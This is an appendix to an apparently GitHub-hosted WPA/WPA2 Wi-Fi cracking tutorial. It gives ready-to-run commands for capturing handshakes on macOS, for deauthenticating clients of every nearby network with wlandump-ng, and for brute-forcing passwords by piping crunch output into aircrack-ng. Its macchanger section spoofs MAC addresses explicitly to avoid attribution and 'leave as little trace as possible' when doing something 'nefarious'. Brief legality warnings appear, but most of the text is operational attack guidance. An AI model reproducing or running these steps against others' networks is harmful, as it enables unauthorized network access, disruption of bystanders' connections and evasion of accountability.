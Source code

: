 # Appendix

After the initial release of this tutorial, several people from various corners of the internet reached out with comments and suggestions. In an effort to keep the original tutorial short and sweet, I've included information about their wonderful suggestions here, and added some of my own. Here you will find info on:

- Wi-Fi cracking on MacOS/OSX
- Capturing handshakes with `wlandump-ng`
- Generating wordlists with `crunch`
- Protecting your identity with `macchanger`

## Wi-Fi cracking on MacOS/OSX

Huge thanks to [@harshpatel991](https://github.com/harshpatel991) for contributing this guide. The following explains how to use built-in MacOS/OSX tools to capture a 4-way handshake and naive-hashcat to determine the password of a WPA/WPA2 wireless network. This method has been tested on OSX versions 10.10 and 10.12 but will likely work with other versions as well. Like the main tutorial, it assumes you have a [wireless card](http://www.wirelesshack.org/best-kali-linux-compatible-usb-adapter-dongles-2016.html) that supports [monitor mode](https://en.wikipedia.org/wiki/Monitor_mode). We've tested this on both Early-2012 and Mid-2015 Macbook Pros with great success.

### Wireless Diagnostics tools

Luckily, OSX comes with a suite of wireless diagnostic tools. To open them, hold down the option key on your keyboard and click on the Wi-Fi icon in the menu bar. Then click "Open Wireless Diagnostics..."

### Determine the channel of your target network

With Wireless Diagnostics open, click on Window > Scan. Find the target network, note its channel and width.

### Capture a 4-way Handshake

1. With Wireless Diagnostics open, click on Window > Sniffer. Select the channel and width that you found in the previous step.
2. Now you'll need to wait for a device to connect to the target network. If you are testing this on your network (which you should be), reconnect a wireless device to capture a handshake.
3. Once you think you've got a handshake, click Stop.
4. The `.wcap` capture file will either be saved to your Desktop or `/var/tmp/` depending on your operating system version.
5. Convert the capture file to `.hccapx` by uploading it to https://hashcat.net/cap2hccapx/. If you captured any handshakes, the site will start downloading a `.hccapx` file. No download will be prompted if you did not.

### Crack the password with `naive-hashcat`

```bash
# clone naive-hashcat
git clone https://github.com/brannondorsey/naive-hashcat
cd naive-hashcat

# build from source on MacOS/OSX
./build-hashcat-osx.sh

# download the 134MB rockyou dictionary file
curl -L -o dicts/rockyou.txt https://github.com/brannondorsey/naive-hashcat/releases/download/data/rockyou.txt
```

Finally, run `naive-hashcat.sh`. Change `handshake.hccapx` to the name of the file you downloaded from [hashcat.net](https://hashcat.net/cap2hccapx/). `cracked.pot` is the name of the output file. 

```
HASH_FILE=handshake.hccapx POT_FILE=cracked.pot HASH_TYPE=2500 ./naive-hashcat.sh
```

Thanks again to [@harshpatel991](https://github.com/harshpatel991), as well as [phillips321](http://www.phillips321.co.uk/) for his [post](https://www.phillips321.co.uk/2016/07/09/hashcat-on-os-x-getting-it-going/) about building hashcat for OSX.

## Capturing handshakes with `wlandump-ng`

[@enilfodne](https://github.com/enilfodne) has [informed me](https://github.com/brannondorsey/wifi-cracking/issues/15) that the hashcat community has a prefered tool for capturing WPA 4-way handshakes, called `wlandump-ng`. This tool belongs to a suite of hashcat related utilities called [hcxtools](https://github.com/ZerBea/hcxtools) developed by [ZerBea](https://github.com/ZerBea), and has notable perks over `airdump-ng`. `wlandump-ng` allows you to blanket capture handshakes from every nearby network at once, hopping Wi-Fi channels in order to increase collection.


```bash
# clone hcxtools
git clone https://github.com/ZerBea/hcxtools
cd hcxtools

# build and install
# you will likely need to apt install the required dependencies:
# https://github.com/ZerBea/hcxtools#requirements
make
sudo make install

# blanket death connected clients from all nearby access points and listen for re-connections
# replace wlan0 with your wireless device name
wlandump-ng -i wlan0 -o capture.cap -c 1 -t 60 -d 100 -D 10 -m 512 -b -r -s 20 

# once you've got a capture file, you can convert it to the hashcat capture format with
cap2hccapx.bin capture.cap capture.hccapx
```

`wlandump-ng` command-line args (use `-h` flag for full list):

- `-c 1`: start in the 2.4Ghz range from channel 1 (will go to 13)
- `-t 60`: stay on each channel for 60s (experiment with lower values, default is `5`)
- `-d 100`: send deauth every 100 beacon frames
- `-D 10`: send disassosciation packets every 10 beacons frames
- `-m 512`: internal ringbuffer size, use 512 for low resource machines
- `-b`: activate beaconing to last 10 probe requests
- `-r`: reset deauthentication/disassosciation counter if hop loop is on channel 1
- `-s 20`: display 20 status lines

**WARNING:** Using this is likely illegal in most places. See [here](https://github.com/ZerBea/hcxtools#warning) for more info.

`wlandump-ng` also offers the option to run in passive mode without transmitting any deauth/disassociation frames. This is recommended if you are are sensitive to disrupting the network activity of those around you (which you should be). The trade-off is that you will capture far fewer handshakes, but this method makes the capture undetectable.

```bash
# run with default settings in passive mode
wlandump-ng -i wlan0 -o capture.cap -p -s 20 
```

## Generating wordlists with `crunch`

`crunch`is a tool to generate wordlists using combinations of a given string or pattern. We can use crunch to generate a password list on-the-fly and pipe it to `aircrack-ng` without having the wordlist saved to disk.

```bash
# install crunch
sudo apt-get install crunch
```

To get an idea of how crunch works, run it from the command-line (be ready to press `ctrl-c` once it starts spewing passwords):

```bash
# syntax 8 8 are min-length and max-length of password to generate
# 01234567890 is the set of characters to combine/permute to construct the passwords
crunch 8 8 0123456789
```

```
Crunch will now generate the following amount of data: 900000000 bytes
858 MB
0 GB
0 TB
0 PB
Crunch will now generate the following number of lines: 100000000 
00000000
00000001
00000002
00000003
00000004
00000005
00000006
00000007
00000008
00000009
...
99999999
```

We can pipe the output of `crunch` as the input to `aircrack-ng`, using the passwords that it generates as our wordlist. Here we use the `crunch` special rule character `%` to denote a digit. This command attempts to crack WPA passwords that are 10-digit phone numbers (using 102GB of numbers generated by crunch on-the-fly): 

```bash
# we can also use -t "@^%," to use pattern '@' - replaced with lowercase ',' - replaced with uppercase
# '%' - replaced with numbers and '^' - is replaced with special chars
# *************** don't forget '-' at the end
crunch 10 10 -t "%%%%%%%%%%" | aircrack-ng -a2 capture.cap -b 58:98:35:CB:A2:77 -w -
```

Thanks to [@hiteshnayak305](https://github.com/hiteshnayak305) for the introduction to `crunch` and including this update as a [PR](https://github.com/brannondorsey/wifi-cracking/pull/17).

## Protecting your identify with `macchanger`

Whenever you are doing anything remotely nefarious with Wi-Fi, it is a good idea to spoof your MAC address of your Wi-Fi device so that any network traffic that gets recorded can't be tied to serial assigned by your device manufacturer.

This is trivial with `macchanger`:

```bash
# download MAC changer
sudo apt-get install macchanger

# bring the device down
sudo ifconfig wlan0 down

# change the mac
# -A pics a random MAC w/ a valid vendor
# -r makes it truly random
# -p restores it to the original hardware MAC
sudo macchanger -A wlan0

# bring the device back up
sudo ifconfig wlan0 up
```

If you've got multiple cards, it might also be a good idea to do this to all of them. Or better yet, bring unused wireless interfaces down whenever you are attempting to capture handshakes, to leave as little trace as possible. Note that spoofing changes do not persist across reboots.
